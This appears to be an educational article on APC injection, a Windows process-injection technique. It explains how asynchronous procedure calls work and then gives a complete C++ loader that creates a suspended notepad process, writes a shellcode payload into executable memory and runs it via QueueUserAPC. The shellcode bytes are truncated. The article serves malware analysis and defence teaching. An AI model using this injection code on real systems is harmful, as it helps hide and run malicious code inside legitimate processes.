

:orphan:
(malware-injection-techniques-apc-injection)=
# Malware Injection Techniques: APC injection
 

APC injection is a type of malware that inserts code into a process by using the system's asynchronous procedure call (APC) queue. This type of malware is difficult to detect because it doesn't create any new processes or files. Instead, it modifies existing ones. APC injection can be used to install other types of malware, such as keyloggers and remote access tools. It can also be used to disable security features, such as antivirus software. 

## APC

*Asynchronous Procedure Calls (APCs)* permit user programs and system code to execute within the context of a specific user thread (and hence a particular process address space).

APC procedures can acquire resources (objects), wait for object handles, experience page faults, and invoke system services.

APCs are described by an APC object, which is a kernel control object. APCs awaiting execution reside in a queue managed by the kernel.

In contrast to the system-wide DPC queue, the APC queue is thread-specific; each thread has its own APC queue. When instructed to queue an APC, the kernel inserts it into the thread's queue that will execute the APC routine. The kernel then requests a software interrupt at APC level, and when the thread begins running, the APC is executed.

APCs come in two varieties: kernel mode and user mode. Kernel-mode APCs can run in the context of a target thread without permission, whereas user-mode APCs require permission.
Kernel-p mode APCs interrupt a thread and execute a procedure without the thread's knowledge or permission.

In addition, there are two types of kernel-mode APCs: regular and special. Special APCs execute at the APC level and permit the APC routine to alter certain APC parameters. Normal APCs execute at passive level and receive the modified parameters (or the original parameters, if they were not modified) from the special APC routine. 

The executive uses kernel-mode APCs to complete operating system tasks within the address space (in the context) of a specific thread. It can use kernel-mode APCs to instruct a thread to stop executing an interruptible system service or to record the results of an asynchronous I/O operation in a thread's address space.

Environment subsystems use kernel-mode APCs to suspend or terminate a thread, as well as to retrieve or set its user-mode execution context. The Subsystem for UNIX Applications emulates the delivery of UNIX signals to Subsystem for UNIX Application processes using kernel-mode APCs.

Another significant application of kernel-mode APCs is thread suspension and termination. Due to the fact that these operations can be initiated from arbitrary threads and directed to arbitrary threads, the kernel uses an APC to query the thread context and terminate the thread. ­Device drivers frequently block APCs or enter a critical or guarded region to prevent these operations from occurring while they are holding a lock; otherwise, the lock may never be released, resulting in a system hang. 

Several Windows APIs employ user-mode APCs, including `ReadFileEx`, `WriteFileEx`, and `QueueUserAPC`.

The `ReadFileEx` and `WriteFileEx` functions, for instance, allow the caller to specify a completion routine that will be invoked when the I/O operation completes. Implementing I/O completion by queuing an APC for the thread that issued the I/O.
Nevertheless, the callback to the completion routine does not necessarily occur when the APC is queued because user-mode APCs are only delivered to a thread when it is in an alertable wait state.

A thread may enter a wait state either by waiting for an object handle and indicating that its wait is alertable (using the Windows `WaitForMultipleObjectsEx` function) or by directly testing whether it has a pending APC (using SleepEx).
If a user-mode APC is pending in either scenario, the kernel interrupts (alerts) the thread, transfers control to the APC routine, and resumes the thread's execution once the APC routine completes.

User-mode APCs execute at passive level, as opposed to kernel-mode APCs which can execute at APC level. 

## APC injection

Asynchronous Procedure Calls (APC) are utilized by malware to force legitimate threads to execute their malicious code. This is possible by attaching their code to the target thread's APC Queue. When a thread enters an alterable state, it is associated with a queue of APCs that await execution. 

Our malicious program creates a new legitimate process initially:

```cpp
// Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
```

Then, memory for the payload is allocated in the memory space of the newly created process: 

```cpp
// allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
```

Then, writing payload:

```cpp
  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);
```

APC is queued for the main thread, which is in a suspended state at the moment, then resume to suspended thread:

```cpp
  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

```

Full source code example:

```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>

// our payload
unsigned char my_payload[] = "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41...";

int main() {

  // Create a 64-bit process:
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  LPVOID my_payload_mem;
  SIZE_T my_payload_len = sizeof(my_payload);
  LPCWSTR cmd;
  HANDLE hProcess, hThread;
  NTSTATUS status;

  ZeroMemory(&si, sizeof(si));
  ZeroMemory(&pi, sizeof(pi));
  si.cb = sizeof(si);

  CreateProcessA(
    "C:\\Windows\\System32\\notepad.exe",
    NULL, NULL, NULL, false,
    CREATE_SUSPENDED, NULL, NULL, &si, &pi
  );
  WaitForSingleObject(pi.hProcess, 5000);
  hProcess = pi.hProcess;
  hThread = pi.hThread;

  // allocate a memory buffer for payload
  my_payload_mem = VirtualAllocEx(hProcess, NULL, my_payload_len,
    MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

  // write payload to allocated buffer
  WriteProcessMemory(hProcess, my_payload_mem, my_payload, my_payload_len, NULL);

  // inject into the suspended thread.
  PTHREAD_START_ROUTINE apc_r = (PTHREAD_START_ROUTINE)my_payload_mem;
  QueueUserAPC((PAPCFUNC)apc_r, hThread, NULL);

  // resume to suspended thread
  ResumeThread(hThread);

  return 0;
}
```

Source code provided for educational and research purposes

## Example

This diagram depicts the disassembly of the *Amanahe malware*.
It begins by invoking the `OpenThread` function to obtain a handle on a different thread. To inject its DLL into another thread, it calls `QueueUserAPC` with a pointer to `LoadLibraryA`. 




## Conclusion

This technique was identified in 2018 or earlier, so you can rest assured that AV / EDR software can easily detect it. 

## References

- [QueueUserAPC](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-queueuserapc)    
- [ATT&CK MITRE: APC injection](https://attack.mitre.org/techniques/T1055/004/)    
- [Early Bird code injection discovered](https://www.cyberbit.com/blog/endpoint-security/new-early-bird-code-injection-technique-discovered/)

> **Would you like to learn practical malware analysis techniques? Then register for our online course! [MRE - Certified Reverse Engineer](https://www.mosse-institute.com/certifications/mre-certified-reverse-engineer.html).**